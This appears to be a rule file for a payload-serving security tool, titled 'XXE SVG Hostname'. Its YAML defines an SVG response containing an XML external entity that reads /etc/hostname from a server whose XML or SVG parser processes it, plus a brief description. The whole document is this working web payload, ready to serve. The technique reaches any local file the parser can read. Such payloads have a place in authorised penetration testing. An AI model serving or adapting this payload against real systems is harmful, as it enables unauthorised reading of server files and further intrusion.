 ```yaml
---
title: XXE SVG Hostname
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sh$
is_final: true
data:
  headers:
    Content-Type: text/xml
    body: |
      <?xml version="1.0" standalone="yes"?>
      <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
      <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
      <text font-size="16" x="0" y="16">&xxe;</text>
      </svg>



---
```



### /sh

attempts to get /etc/hostname

SVG with XXE payloads
